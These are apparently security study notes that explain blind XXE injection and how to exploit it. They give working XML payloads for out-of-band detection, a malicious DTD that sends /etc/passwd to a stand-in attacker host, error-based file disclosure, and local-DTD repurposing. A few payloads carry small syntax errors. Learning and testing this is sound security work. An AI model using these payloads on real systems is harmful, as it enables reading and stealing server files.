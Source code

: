 # Finding and EXploiting Blind XXE Vulnerabilities

## What is Blind XXE
- `BLIND XXE` vulnerabilities arises where the application is vulnerable to `XXE injection` but does not return the values of any defined external entities with in its responses. 
- i.e direct retrieval of the server-side files is not possible, and `blind xxe is harder than regular xxe`
- `How to exploit Blind XXE` 
	- trigger out-of-band network interaction.
	- trigger XML parsing errors in such a way that the error messages contain sensitive data.

## Detecting Blind XXE using Out-of-band (OAST)
- we need to define an external entity for triggering network interaction to our server.
```js
<!DOCTYPE root [<!ENTITY DK SYSTEM "http://data.ourdomain.com" >]>
```
and use it to valid defined entity in the data value in the `XML`

- sometimes `XXE attacks` using regular Entities are Blocked, due to some input validation by the application or some hardening of the XML parser that is being used.
- in this situation you might be able to use `XML parameter Entities` , it is special kind of Entities which can only be referenced elsewhere within the `DTD` 
- for this we only need 2 things
	1. declaration of an XML parameter entity include the `%` symbol before the entity name `` <!ENTITY % myparameter_entity "parameter value"> ``
	2. parameter Entities are referenced using the `%` character instead of usual `&` character: ``%myparameter_entity``
``Final Payload for XXE Blind using Parameter Entity payload``
```js
<!DOCTYPE root [<!ENTITY % DK SYSTEM "http://attacker.domain"> %DK; ]> 
```

## Exploit Blind XXE to Exfiltrate data out-of-band (OAST)
- detecting vulnerability via out-of-band technique is well but exploitation to exfiltrate data via this is not easy.
- This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
- **Example of malicious DTD** 
```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval " <!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com or we use burp collaborator/?x=%file;'> ">
%eval;
%exfiltrate
```
This `DTD` carries out the following steps
- defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd ` file.
- Defines an XML parameter entity called `eval` containing a dynamic declaration of another XML parameter entity called `exfiltrate`. 
- this exfiltrate entity will be evaluated by making HTTP request to the attacker's control web server containing the value of the `%file` entity to url query string.
- uses `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.
- the attacker must host this malicious `DTD` file in to his server `http://attacker.domain/malicious.dtd`
- and finally attacker need to submit the payload to the `xxe vuln` application.
```js
<!DOCTYPE root [<!ENTITY % dk SYSTEM "http://attacker.domain/malicious.dtd"> %dk; ]>
```

## Exploiting XXE to retrieve data via error messages.
- alternative approach to exploiting `blind XXE` is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve.
- this will be effective if the application returns the resulting error message within its response.
```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
this DTD carries out the following
1. Defines an XML Parameter entity called `file`, containing the contents of the `/etc/passwd` file.
2. defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error` . the error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
3. Uses the eval entity which causes declaration of the error entity to be performed.
4. uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.
5. for exploitation put that `malicious.dtd` file to exploit server and then request to that file using `XXE injection ` and it gives error with output of `%file` entity.
invoking malicious `external DTD` will result in an error message containing the contents of the file /etc/passwd

## Exploiting Blind XXE by repurposing a local DTD
- preceding technique works fine with external DTD but normally won't work with internal DTD, 
- what to do if in blind xxe the out-of-band intraction is blocked and we cant load from the `External DTD`  from the remote location. 
- in this situation, trigger error message containing sensitive data, due to loophole in XML language specification. 
- if document's DTD uses `hybrid` of internal and external DTD declaration, then the internal DTD can reduce entities that are declared in the external DTD. 
- when this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.
- [full-explain-this attack](https://portswigger.net/web-security/xxe/blind)
**Example** if DTD file on the server at location /usr/local/app/schema.dtd, and it defines entity called `custom_entity `, an attacker can trigger an XML parsing error message containing contents of /etc/passwd by submitting `Hybrid DTD`
```js
<!DOCTYPE root [<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY $ custom_entity '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///invalid/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
%local_dtd;
]>
```

## locating an Existing DTD file to repurpose.
- since this XXE attack involves repurposing an `existing DTD` on the server filesystem.
- a key requirement is to locate a suitable file. it is quite easy since server throws an error message thrown by the XML parser.
- example: in linux DTS file at `/usr/share/yelp/dtd/docbookx.dtd`

```js
<!DOCTYPE root [<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"
%local_dtd;]>
```


